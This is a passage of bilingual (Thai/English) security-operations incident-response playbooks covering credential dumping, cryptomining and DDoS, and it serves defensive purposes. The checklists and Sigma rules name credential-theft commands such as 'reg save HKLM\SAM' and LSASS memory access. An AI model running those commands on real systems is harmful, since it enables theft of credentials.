- [ ] ตรวจ Sysmon Event ID 10 (ProcessAccess to lsass.exe)
- [ ] ตรวจคำสั่ง `reg save HKLM\SAM`, `reg save HKLM\SYSTEM`
- [ ] ตรวจ ntdsutil.exe หรือ vssadmin shadow copies

### การวิเคราะห์ Network
- [ ] ตรวจ DCSync traffic (DRSUAPI replication)
- [ ] ตรวจ LDAP queries สำหรับ SPNs (Kerberoasting)
- [ ] ตรวจ Pass-the-Hash (NTLM auth จาก IP ใหม่)
- [ ] ตรวจ lateral movement (RDP, WMI, PsExec, SMB) จากเครื่องที่ถูกโจมตี

### การวิเคราะห์ Active Directory
- [ ] ตรวจ Kerberos TGT/TGS requests จากเครื่องที่ถูกโจมตี
- [ ] ตรวจ service accounts ที่สร้างใหม่/แก้ไข
- [ ] ตรวจ Group Policy สำหรับ persistence
- [ ] ตรวจ KRBTGT account — วันที่เปลี่ยน password ล่าสุด

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ | คำสั่ง |
|:---|:---|:---|
| **Host** | แยกเครือข่ายผ่าน EDR | `Isolate-Endpoint -HostId <ID>` |
| **บัญชี** | บังคับ reset password | `Set-ADAccountPassword -Identity <user>` |
| **Kerberos** | ลบ tickets | `klist purge` บนทุกเครื่องที่ได้รับผลกระทบ |
| **Service accts** | หมุนเวียน credentials | อัปเดต password service account ทั้งหมด |
| **Admin accounts** | ปิดและสร้างใหม่ | สร้างบัญชี admin ใหม่ชื่อต่างจากเดิม |

## 4. การกำจัดและกู้คืน

### ระยะสั้น
1. Reimage เครื่องที่ถูกโจมตี (อย่าเชื่อการ cleanup อย่างเดียว)
2. Reset password ทั้งหมดสำหรับบัญชีบนเครื่องที่ถูกโจมตี
3. หมุนเวียน service account credentials
4. Reset KRBTGT password **2 ครั้ง** (ถ้า domain admin ถูกโจมตี)
5. เพิกถอน Kerberos tickets ที่ active ทั้งหมด

### ระยะยาว
1. เปิด **Credential Guard** บน Windows 10/11 ทุกเครื่อง
2. Deploy **LSASS protection** (`RunAsPPL` registry key)
3. ใช้ **tiered admin model** (Tier 0/1/2)
4. ปิด WDigest authentication (`UseLogonCredential = 0`)
5. Deploy **Privileged Access Workstations (PAWs)**

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| ผู้โจมตีได้ initial access อย่างไร? | [บันทึก] |
| Credential Guard เปิดใช้อยู่หรือไม่? | [ใช่/ไม่ — ถ้าไม่ เพราะอะไร?] |
| บัญชี admin แบ่ง tier ถูกต้องหรือไม่? | [บันทึกช่องว่าง] |
| Credentials ถูกเปิดเผยนานแค่ไหน? | [Timeline] |

### Hardening Checklist
- [ ] Credential Guard เปิดบนทุก endpoint ที่ join domain
- [ ] LSASS RunAsPPL เปิดใช้
- [ ] WDigest ปิดใช้
- [ ] Local admin passwords จัดการผ่าน LAPS
- [ ] Tiered admin model ใช้งาน
- [ ] Protected Users group กำหนดค่าสำหรับ privileged accounts

## 6. Detection Rules (Sigma)

```yaml
# ตรวจจับการเข้าถึง LSASS Memory
title: LSASS Memory Access by Non-System Process
logsource:
    product: windows
    category: process_access
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'
            - '0x1410'
            - '0x1F0FFF'
    filter:
        SourceImage|endswith:
            - '\wmiprvse.exe'
            - '\taskmgr.exe'
            - '\procexp64.exe'
    condition: selection and not filter
    level: critical
```

```yaml
# ตรวจจับ SAM/SYSTEM Registry Hive Export
title: SAM Registry Hive Export
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        CommandLine|contains|all:
            - 'reg'
            - 'save'
        CommandLine|contains:
            - 'HKLM\SAM'
            - 'HKLM\SYSTEM'
            - 'HKLM\SECURITY'
    condition: selection
    level: critical
```

## เอกสารที่เกี่ยวข้อง
- [Lateral Movement Playbook](Lateral_Movement.th.md)
- [Account Compromise Playbook](Account_Compromise.th.md)
- [Privilege Escalation Playbook](Privilege_Escalation.th.md)
- [Brute Force Playbook](Brute_Force.th.md)
- [คู่มือ Tier 2](../Runbooks/Tier2_Runbook.th.md)

## References
- [MITRE T1003 — OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
- [Microsoft — Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/)
- [SANS — Detecting Mimikatz](https://www.sans.org/white-papers/)


---

## File: 05_Incident_Response/Playbooks/Cryptomining.en.md

# Playbook: Cryptomining Response

**ID**: PB-31
**Severity**: Medium/High | **Category**: Resource Abuse
**MITRE ATT&CK**: [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking)
**Trigger**: EDR alert (crypto miner), Cloud billing anomaly, SIEM (Stratum protocol), CPU alert

### Detection Flow

```mermaid
graph TD
    Alert["🚨 Alert"] --> Source{"🖥️ Source?"}
    Source -->|Endpoint| EDR["🛡️ EDR: Process kill"]
    Source -->|Cloud VM| Cloud["☁️ Billing spike check"]
    Source -->|Container| K8s["🐳 Pod termination"]
    EDR --> IOC["🔍 Extract IOC"]
    Cloud --> IOC
    K8s --> IOC
    IOC --> Hunt["🎯 Org-wide hunt"]
```

### Cloud Remediation

```mermaid
sequenceDiagram
    participant CloudWatch
    participant SOC
    participant IAM
    participant VM
    CloudWatch->>SOC: 🚨 CPU 100% + billing anomaly
    SOC->>IAM: Check recent API calls
    IAM-->>SOC: Unauthorized key used
    SOC->>IAM: Revoke compromised key
    SOC->>VM: Terminate unauthorized instances
    SOC->>SOC: Scan for persistence
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 High CPU/GPU Usage"] --> Source{"🖥️ Where?"}
    Source -->|Cloud Instance (EC2/VM)| Cloud["☁️ Cloud Billing Check"]
    Source -->|On-Prem Server| Server["🔍 Process Analysis"]
    Source -->|Endpoint (Workstation)| Endpoint["👤 User Activity Check"]
    Source -->|Container / K8s| Container["🐳 Image Audit"]
    Cloud --> Process{"⛏️ Mining Binary?"}
    Server --> Process
    Endpoint --> Process
    Container --> Process
    Process -->|xmrig/minerd/etc| Confirmed["🔴 Cryptomining Confirmed"]
    Process -->|Unknown Binary| Hash["🔍 Hash Check + Network"]
    Hash -->|Mining Pool Connection| Confirmed
    Hash -->|No Pool, High CPU| Legit["🟡 Investigate Further"]
    Confirmed --> Entry{"🚪 Entry Vector?"}
    Entry -->|Vulnerable App| Exploit["🔴 Deeper Compromise"]
    Entry -->|Compromised Creds| Creds["🔴 IAM Compromise"]
    Entry -->|Malicious Image| Supply["🟠 Supply Chain"]
    Exploit --> Full["🔒 Full IR Response"]
    Creds --> Full
```

---

## 1. Analysis

### 1.1 Known Mining Binaries & Tools

| Binary | Cryptocurrency | Indicators |
|:---|:---|:---|
| `xmrig` | Monero (XMR) | High CPU, connects to *pool domains |
| `minerd` | Various | Legacy CPU miner |
| `ccminer` | Various | GPU miner |
| `phoenixminer` | Ethereum | GPU miner |
| `t-rex` | Various | GPU miner |
| `nbminer` | Various | GPU miner |
| `cryptonight` | Monero | In-memory, library-based |
| Browser-based (Coinhive-style) | Monero | JavaScript, WebSocket connections |

### 1.2 Mining Pool Indicators

| Indicator | Examples |
|:---|:---|
| **Domains** | `*pool.com`, `*xmr.*`, `*mining.*`, `*hashvault.*`, `*nanopool.*` |
| **Ports** | 3333, 4444, 5555, 8333, 14444, 45700 |
| **Protocols** | Stratum (`stratum+tcp://`), JSON-RPC |
| **User-Agent** | Contains mining software name |

### 1.3 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Identify specific process/binary | EDR / `top` / Task Manager | ☐ |
| File hash of mining binary | EDR / `sha256sum` | ☐ |
| Network connections to mining pools | Netflow / VPC Flow / EDR | ☐ |
| How was it installed? (entry vector) | Timeline analysis | ☐ |
| Persistence mechanism? (cron, service, container restart) | System inspection | ☐ |
| Cloud billing impact | Cost Explorer / Billing | ☐ |
| Is this the only compromised system? | Search for same hash/connections | ☐ |
| Were other actions taken? (not just mining) | Full forensic review | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Kill** mining process | ☐ |
| 2 | **Block** mining pool domains/IPs at firewall/DNS | ☐ |
| 3 | **Block** common mining ports (3333, 4444, 5555, 8333) | ☐ |
| 4 | **Isolate** the system if entry via exploit (deeper compromise) | ☐ |
| 5 | **Suspend** unauthorized cloud instances | ☐ |

### 2.2 Cloud-Specific

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Terminate unauthorized instances (esp. GPU, spot) | ☐ |
| 2 | Disable compromised IAM access keys | ☐ |
| 3 | Check for instances in ALL regions | ☐ |
| 4 | Set billing alerts and budgets | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Delete mining binary and configuration files | ☐ |
| 2 | Remove persistence (crontab, systemd, scheduled task, Docker restart policy) | ☐ |
| 3 | Patch entry vector (vulnerable app, exposed SSH/RDP) | ☐ |
| 4 | Reset compromised credentials | ☐ |
| 5 | Audit container images for embedded miners | ☐ |
| 6 | Full AV/EDR scan | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Verify CPU/GPU returns to normal | ☐ |
| 2 | File cloud provider support request for unauthorized usage credits | ☐ |
| 3 | Add detection rules for mining pool connections | ☐ |
| 4 | Add CPU anomaly detection (sustained >90%) | ☐ |
| 5 | Implement egress filtering (block non-business ports) | ☐ |
| 6 | Monitor for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Mining binary hash | | EDR / Filesystem |
| Mining pool domain/IP | | DNS / Netflow |
| Wallet address (Monero/ETH) | | Config file |
| Entry vector (CVE / exposed port) | | Investigation |
| Persistence mechanism | | System inspection |
| Cloud instances launched | | CloudTrail / Billing |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Entry via exploit (not just mining — deeper compromise) | Tier 2 + [PB-18 Exploit](Exploit.en.md) |
| Multiple systems mining | Major Incident |
| Cloud billing spike > $500 | Finance + Cloud team |
| Container image compromised (supply chain) | [PB-32 Supply Chain](Supply_Chain_Attack.en.md) |
| Insider deployed miner intentionally | [PB-14 Insider Threat](Insider_Threat.en.md) |
| C2 communication alongside mining | [PB-13 C2](C2_Communication.en.md) |

---

### Mining Pool Detection

```mermaid
graph LR
    Traffic["🌐 Traffic"] --> DNS["🔤 DNS Query"]
    DNS --> Pool{"🏊 Mining Pool?"}
    Pool -->|Yes| Block["❌ Block + alert"]
    Pool -->|No| Allow["✅ Allow"]
    Traffic --> TLS["🔒 TLS Inspection"]
    TLS --> Stratum{"📡 Stratum protocol?"}
    Stratum -->|Yes| Block
    style Block fill:#e74c3c,color:#fff
    style Pool fill:#f39c12,color:#fff
```

### Container Security

```mermaid
sequenceDiagram
    participant K8s as Kubernetes
    participant Falco
    participant SOC
    participant DevOps
    K8s->>Falco: Container spawned
    Falco->>Falco: Detect: crypto miner process
    Falco->>SOC: 🚨 Alert
    SOC->>K8s: Kill pod
    SOC->>DevOps: Check image vulnerability
    DevOps->>K8s: Update + scan images
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Cryptomining Process Detection | [proc_cryptomining_indicators.yml](../../08_Detection_Engineering/sigma_rules/proc_cryptomining_indicators.yml) |
| AWS EC2 Crypto Mining Indicator | [cloud_aws_ec2_mining.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_ec2_mining.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-03 Malware Infection](Malware_Infection.en.md)
- [PB-18 Exploit](Exploit.en.md)
- [PB-22 AWS EC2](AWS_EC2_Compromise.en.md)

## References

- [MITRE ATT&CK T1496 — Resource Hijacking](https://attack.mitre.org/techniques/T1496/)
- [Red Canary — Cryptominer Detection](https://redcanary.com/threat-detection-report/threats/cryptominers/)
- [CISA — Cryptomining Malware](https://www.cisa.gov/news-events/alerts)


---

## File: 05_Incident_Response/Playbooks/Cryptomining.th.md

# Playbook: Cryptomining / การขุดเหรียญดิจิทัล

**ID**: PB-31
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: การโจมตีทรัพยากร
**MITRE ATT&CK**: [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking)
**ทริกเกอร์**: GuardDuty/Defender alert, CPU/GPU spike, billing anomaly, network connection to mining pool


## หลังเหตุการณ์ (Post-Incident)

- [ ] ตรวจสอบและ patch vulnerability ที่ใช้เข้ามา
- [ ] ใช้ resource quota / cost alerts ใน cloud
- [ ] บล็อก mining pool connections ที่ firewall
- [ ] ทบทวน container image scanning policy
- [ ] ใช้ runtime security เฝ้า abnormal CPU usage
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการตรวจจับ Cryptomining

```mermaid
graph TD
    Detect["🔍 ตรวจจับ"] --> Source{"📍 แหล่ง?"}
    Source -->|CPU/GPU 100%| Host["💻 Host-based"]
    Source -->|Network → Mining Pool| Net["🌐 Network-based"]
    Source -->|Cloud Billing Spike| Bill["💰 Billing-based"]
    Host --> Confirm["✅ ยืนยัน Mining Process"]
    Net --> Confirm
    Bill --> Confirm
    Confirm --> Kill["🔪 Kill + Block"]
    style Detect fill:#3498db,color:#fff
    style Confirm fill:#f39c12,color:#fff
    style Kill fill:#e74c3c,color:#fff
```

### ผังขั้นตอนกำจัดใน Cloud

```mermaid
sequenceDiagram
    participant SOC
    participant Cloud as AWS/Azure/GCP
    participant Finance
    SOC->>Cloud: หยุด / terminate instances
    SOC->>Cloud: ลบ IAM credentials ที่สร้าง
    SOC->>Cloud: ตรวจทุก region!
    Cloud-->>SOC: พบ instances ใน 3 regions
    SOC->>Cloud: Terminate ทั้งหมด
    SOC->>Finance: ขอ billing credit
    Finance-->>SOC: เปิด support case
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Cryptomining Alert"] --> Env{"☁️ สภาพแวดล้อม?"}
    Env -->|Cloud (AWS/Azure/GCP)| Cloud["💰 ตรวจ Billing + Regions"]
    Env -->|On-premise| OnPrem["🖥️ ตรวจ CPU/GPU Usage"]
    Cloud --> Scope{"📊 กี่ instances?"}
    OnPrem --> Scope
    Scope -->|เครื่องเดียว| Single["🟠 Kill + Investigate Entry"]
    Scope -->|หลายเครื่อง/regions| Multi["🔴 IAM Compromise"]
    Multi --> IAM["🔑 ตรวจ IAM Credentials"]
```

---

## 1. การวิเคราะห์

### 1.1 Mining Binaries ที่รู้จัก

| Binary | ลักษณะ | Coin |
|:---|:---|:---|
| **xmrig** | CPU miner | Monero (XMR) |
| **ccminer** | GPU miner | หลาย coin |
| **ethminer** | GPU miner | Ethereum |
| **t-rex** | GPU miner | หลาย coin |
| **PhoenixMiner** | GPU miner | Ethereum |
| **nbminer** | GPU miner | หลาย coin |

### 1.2 ตัวบ่งชี้ Mining Pool

| ตัวบ่งชี้ | ค่าที่น่าสงสัย |
|:---|:---|
| Destination port | 3333, 4444, 5555, 8333, 14444 |
| Protocol | Stratum (stratum+tcp://) |
| DNS queries | pool.*, mining.*, xmr.*, f2pool.*, nanopool.* |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Host/Instance ที่ทำ mining | EDR / GuardDuty / CloudWatch | ☐ |
| Mining binary และ hash | EDR process list | ☐ |
| Mining pool domain/IP | Proxy / DNS / Netflow | ☐ |
| Entry vector (exploit/credential/supply chain) | CloudTrail / EDR | ☐ |
| จำนวนเครื่อง (**ตรวจทุก region!**) | Cloud console / SIEM | ☐ |
| Billing impact (USD) | Cloud billing | ☐ |
| มี persistence (crontab, systemd, k8s)? | EDR / kubectl | ☐ |
| มี lateral movement? | SIEM | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Kill** mining process | EDR / SSH | ☐ |
| 2 | **Block** mining pool IPs/domains | Firewall / DNS | ☐ |
| 3 | **Isolate** หรือ **terminate** instances | Cloud console / EDR | ☐ |
| 4 | **ปิด IAM credentials** ที่ใช้สร้าง instances | IAM console | ☐ |
| 5 | **Block** mining ports (3333, 4444, 5555) | NACL / SG | ☐ |

### 2.2 คลาวด์ — ตรวจทุก Region

```bash
# AWS — ตรวจ EC2 instances ทุก region
for region in $(aws ec2 describe-regions --query 'Regions[].RegionName' --output text); do
  echo "=== $region ==="
  aws ec2 describe-instances --region $region \
    --query 'Reservations[].Instances[].[InstanceId,State.Name,InstanceType]' \
    --output table
done
```

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ mining binaries + persistence (crontab, systemd, k8s CronJob) | ☐ |
| 2 | **ลบ instances ที่ผู้โจมตีสร้าง (ทุก region!)** | ☐ |
| 3 | หมุนเวียน IAM credentials ที่เกี่ยวข้อง | ☐ |
| 4 | ตรวจ container images สำหรับ embedded miners | ☐ |
| 5 | Patch entry vector | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ตั้ง **billing alerts** + **budget caps** | ☐ |
| 2 | ใช้ **SCP** จำกัด instance types / regions ที่ไม่ใช้ | ☐ |
| 3 | ขอ **billing credit** จาก cloud provider | ☐ |
| 4 | เปิด GuardDuty / Defender for Cloud | ☐ |
| 5 | ตรวจ container images ก่อน deploy (image scanning) | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Billing > $1,000 ผิดปกติ | Finance + Cloud team |
| หลาย accounts ได้รับผลกระทบ | Major Incident |
| Supply chain (compromised image/dependency) | [PB-32 Supply Chain](Supply_Chain_Attack.th.md) |
| Insider สร้าง mining instances | CISO + HR |
| IAM credentials ถูกขโมย | [PB-16 Cloud IAM](Cloud_IAM.th.md) |

---

### ผัง Mining Pool Detection

```mermaid
graph LR
    Traffic["🌐 Traffic"] --> DNS["🔤 DNS Query"]
    DNS --> Pool{"🏊 Mining Pool?"}
    Pool -->|Yes| Block["❌ Block + alert"]
    Pool -->|No| Allow["✅ Allow"]
    Traffic --> TLS["🔒 TLS Inspection"]
    TLS --> Stratum{"📡 Stratum protocol?"}
    Stratum -->|Yes| Block
    style Block fill:#e74c3c,color:#fff
    style Pool fill:#f39c12,color:#fff
```

### ผัง Container Security

```mermaid
sequenceDiagram
    participant K8s as Kubernetes
    participant Falco
    participant SOC
    participant DevOps
    K8s->>Falco: Container spawned
    Falco->>Falco: Detect: crypto miner process
    Falco->>SOC: 🚨 Alert
    SOC->>K8s: Kill pod
    SOC->>DevOps: Check image vulnerability
    DevOps->>K8s: Update + scan images
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Cryptomining Process Detection | [proc_cryptomining_indicators.yml](../../08_Detection_Engineering/sigma_rules/proc_cryptomining_indicators.yml) |
| AWS EC2 Crypto Mining Indicator | [cloud_aws_ec2_mining.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_ec2_mining.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-22 AWS EC2 Compromise](AWS_EC2_Compromise.th.md)
- [PB-16 Cloud IAM](Cloud_IAM.th.md)

## Cryptomining Detection Indicators

| Indicator | Source | Threshold |
|:---|:---|:---|
| High CPU sustained | EDR/Performance | > 80% for 30 min |
| Mining pool connection | Network flow | Known pool IPs/domains |
| Stratum protocol | Network inspection | stratum+tcp:// |
| GPU utilization spike | Endpoint agent | Unexpected > 60% |

### Resource Impact Assessment

| Host Type | Business Impact | Priority |
|:---|:---|:---|
| Production server | High (performance) | P1 |
| Cloud instance | High (cost) | P1 |
| User workstation | Medium | P2 |
| Dev/test server | Low | P3 |

## อ้างอิง

- [MITRE ATT&CK T1496 — Resource Hijacking](https://attack.mitre.org/techniques/T1496/)


---

## File: 05_Incident_Response/Playbooks/DDoS_Attack.en.md

# Playbook: Denial of Service (DDoS)

**ID**: PB-09
**Severity**: High/Critical | **Category**: Availability
**MITRE ATT&CK**: [T1498](https://attack.mitre.org/techniques/T1498/) (Network DoS), [T1499](https://attack.mitre.org/techniques/T1499/) (Endpoint DoS)
**Trigger**: NOC/NMS alert, WAF/CDN alert, Customer complaints, Uptime monitor, RDoS email

### Defense Layers

```mermaid
graph LR
    Attack["⚡ DDoS"] --> CDN["🌐 CDN/Cloud Scrubbing"]
    CDN --> WAF["🛡️ WAF"]
    WAF --> LB["⚖️ Load Balancer"]
    LB --> FW["🔥 Firewall"]
    FW --> Server["🖥️ Origin Server"]
    style Attack fill:#e74c3c,color:#fff
    style CDN fill:#3498db,color:#fff
    style WAF fill:#2ecc71,color:#fff
    style Server fill:#27ae60,color:#fff
```

### Communication Flow

```mermaid
sequenceDiagram
    participant NOC
    participant SOC
    participant ISP
    participant CDN
    participant Mgmt as Management
    NOC->>SOC: 🚨 Traffic spike / service down
    SOC->>CDN: Activate DDoS mitigation
    SOC->>ISP: Request upstream filtering
    CDN-->>SOC: Scrubbing active
    ISP-->>SOC: Blackhole/rate limit applied
    SOC->>Mgmt: Status update + ETA
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 High Traffic / Service Down"] --> Verify{"📊 Legitimate Spike?"}
    Verify -->|Marketing Campaign / Launch| Scale["⬆️ Scale Up Resources"]
    Verify -->|No Known Cause| Analyze{"🔍 Attack Type?"}
    Analyze -->|Volumetric| Vol["🌊 UDP/ICMP/SYN Flood"]
    Analyze -->|Protocol| Proto["⚙️ SYN/ACK Exploit"]
    Analyze -->|Application| App["🌐 HTTP GET/POST Flood"]
    Vol --> ISP["📞 Contact ISP / CDN"]
    Proto --> FW["🛡️ Firewall Rate Limit"]
    App --> WAF["🔒 WAF Under-Attack Mode"]
    ISP --> Monitor["📊 Monitor Recovery"]
    FW --> Monitor
    WAF --> Monitor
    Monitor --> Stable{"Service Stable?"}
    Stable -->|Yes| PostInc["📝 Post-Incident"]
    Stable -->|No| Blackhole["🕳️ Blackhole / Null Route"]
```

---

## 1. Analysis (Triage)

### 1.1 Attack Classification

| Type | Characteristics | Layer | Common Tools |
|:---|:---|:---|:---|
| **Volumetric** | UDP/ICMP/DNS amplification flood | L3/L4 | Booters, botnets |
| **Protocol** | SYN flood, fragmented packet attack | L4 | hping3, custom tools |
| **Application** | HTTP GET/POST flood, Slowloris | L7 | LOIC, Slowloris, custom |
| **Multi-vector** | Combination of above | L3-L7 | Sophisticated actors |

### 1.2 Initial Assessment

| Check | How | Done |
|:---|:---|:---:|
| Confirm service impact | Synthetic monitoring, user reports | ☐ |
| Identify attack type | Traffic analysis (protocol, port, payload) | ☐ |
| Determine target | Specific IP, URL path, or application? | ☐ |
| Measure bandwidth | Current vs baseline throughput | ☐ |
| Check source distribution | Single IP, botnet, or amplification? | ☐ |
| Rule out legitimate traffic | Marketing campaigns, product launches? | ☐ |

### 1.3 Impact Assessment

| Service | Status | Users Affected | Business Impact |
|:---|:---|:---|:---|
| Web application | ☐ Up / ☐ Degraded / ☐ Down | | |
| API endpoints | ☐ Up / ☐ Degraded / ☐ Down | | |
| Email/DNS | ☐ Up / ☐ Degraded / ☐ Down | | |
| VPN/Remote access | ☐ Up / ☐ Degraded / ☐ Down | | |

---

## 2. Containment

### 2.1 Immediate Mitigation (within 5 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | Enable "Under Attack" mode | Cloudflare / Akamai / AWS Shield | ☐ |
| 2 | Activate DDoS protection rules | WAF | ☐ |
| 3 | Rate-limit by GeoIP (block non-business countries) | Firewall / CDN | ☐ |
| 4 | Enable CAPTCHA challenge | CDN / WAF | ☐ |
| 5 | Block top attacking IPs / CIDR blocks | Firewall | ☐ |

### 2.2 If Pipe Saturated (Volumetric)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Contact ISP for upstream filtering | ☐ |
| 2 | Request null-route/blackhole for targeted IP (last resort) | ☐ |
| 3 | Activate CDN / scrubbing center if not already in use | ☐ |
| 4 | Failover to DR site if primary is unreachable | ☐ |

### 2.3 If Application Layer (L7)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Identify and block attack pattern (User-Agent, URI, header) | ☐ |
| 2 | Deploy JavaScript challenge / CAPTCHA | ☐ |
| 3 | Increase connection timeouts, limit concurrent connections | ☐ |
| 4 | Scale backend servers (auto-scaling groups) | ☐ |

---

## 3. Communication

| Stakeholder | When | Channel | Message |
|:---|:---|:---|:---|
| IT Operations | Immediately | Chat + Phone | Service impact details |
| SOC Lead | Within 5 minutes | Chat | Attack classification |
| Business stakeholders | Within 15 minutes | Email | Service status update |
| Customers (if public-facing) | Within 30 minutes | Status page | Incident acknowledgment |
| Executive team | If extended (>1 hour) | Briefing | Business impact summary |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Gradually relax mitigation rules | ☐ |
| 2 | Monitor for attack resumption (often comes in waves) | ☐ |
| 3 | Validate service health via synthetic monitoring | ☐ |
| 4 | Scale down temporary resources after 2 hours stability | ☐ |
| 5 | Update status page / notify stakeholders of resolution | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Top attacking IPs | | Firewall / CDN |
| Attack bandwidth (Gbps) | | Network monitoring |
| Attack protocol/port | | Traffic analysis |
| Target IP / URL | | WAF / Server logs |
| Attack duration | | Monitoring |
| User-Agent patterns (L7) | | WAF logs |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Service down > 30 minutes | SOC Manager + IT Director |
| Attack > 10 Gbps | ISP + CDN provider |
| Revenue-generating service affected | Business unit + Executive |
| Ransom demand received (RDoS) | CISO + Legal |
| Attack combined with other indicators (ransomware, intrusion) | Major Incident response |

---

## 7. Post-Incident

- [ ] Review DDoS mitigation plan effectiveness and update as needed
- [ ] Update ISP/CDN scrubbing agreements based on attack profile
- [ ] Review auto-scaling and rate-limiting configurations
- [ ] Conduct capacity planning based on observed attack bandwidth
- [ ] Update runbook with ISP/CDN escalation contacts and procedures
- [ ] Implement GeoIP-based filtering if attacks originated from specific regions
- [ ] Schedule DDoS simulation exercise with mitigation provider
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### DDoS Mitigation Tiers

```mermaid
graph TD
    Attack["💥 DDoS"] --> L3["🔒 L3/L4: ISP null route"]
    Attack --> L7["🛡️ L7: WAF + rate limit"]
    L3 --> CDN["☁️ CDN absorption"]
    L7 --> CDN
    CDN --> Origin["🖥️ Origin protected"]
    Origin --> Monitor["📊 Monitor recovery"]
    style Attack fill:#e74c3c,color:#fff
    style CDN fill:#27ae60,color:#fff
```

### ISP Coordination

```mermaid
sequenceDiagram
    participant SOC
    participant ISP
    participant CDN
    participant Management
    SOC->>ISP: 🚨 DDoS 50Gbps — request scrubbing
    ISP->>ISP: Activate scrubbing center
    ISP-->>SOC: ✅ Scrubbing active
    SOC->>CDN: Increase capacity
    CDN-->>SOC: ✅ Auto-scaling
    SOC->>Management: Update: mitigated
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| High Web Request Rate from Single IP | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [Disaster Recovery / BCP](../Disaster_Recovery_BCP.en.md)

## References

- [MITRE ATT&CK T1498 — Network Denial of Service](https://attack.mitre.org/techniques/T1498/)
- [CISA DDoS Quick Guide](https://www.cisa.gov/sites/default/files/publications/ddos-quick-guide.pdf)
- [Cloudflare DDoS Trends](https://radar.cloudflare.com/security-and-attacks)


---

## File: 05_Incident_Response/Playbooks/DDoS_Attack.th.md

# Playbook: การโจมตี DDoS

**ID**: PB-12
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยเครือข่าย
**MITRE ATT&CK**: [T1498](https://attack.mitre.org/techniques/T1498/) (Network Denial of Service), [T1499](https://attack.mitre.org/techniques/T1499/) (Endpoint Denial of Service)
**ทริกเกอร์**: Network monitoring alert, WAF/CDN alert, ลูกค้ารายงาน, uptime monitor, NOC alert


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวนแผน DDoS mitigation และอัพเดทตามจำเป็น
- [ ] อัพเดท ISP/CDN scrubbing agreements
- [ ] ทบทวน auto-scaling และ rate-limiting configurations
- [ ] ทำ capacity planning จาก bandwidth ที่พบ
- [ ] จัด DDoS simulation exercise กับ mitigation provider
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังชั้นป้องกัน DDoS

```mermaid
graph LR
    Attack["⚡ DDoS"] --> CDN["🌐 CDN/Cloud Scrubbing"]
    CDN --> WAF["🛡️ WAF"]
    WAF --> LB["⚖️ Load Balancer"]
    LB --> FW["🔥 Firewall"]
    FW --> Server["🖥️ Origin Server"]
    style Attack fill:#e74c3c,color:#fff
    style CDN fill:#3498db,color:#fff
    style WAF fill:#2ecc71,color:#fff
    style Server fill:#27ae60,color:#fff
```

### ผังการสื่อสารระหว่างเหตุการณ์

```mermaid
sequenceDiagram
    participant NOC
    participant SOC
    participant ISP
    participant CDN
    participant Mgmt as Management
    NOC->>SOC: 🚨 Traffic spike / service down
    SOC->>CDN: เปิด DDoS mitigation
    SOC->>ISP: ขอ upstream filtering
    CDN-->>SOC: Scrubbing เปิดแล้ว
    ISP-->>SOC: Blackhole/rate limit ดำเนินการ
    SOC->>Mgmt: อัปเดตสถานะ + ETA
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
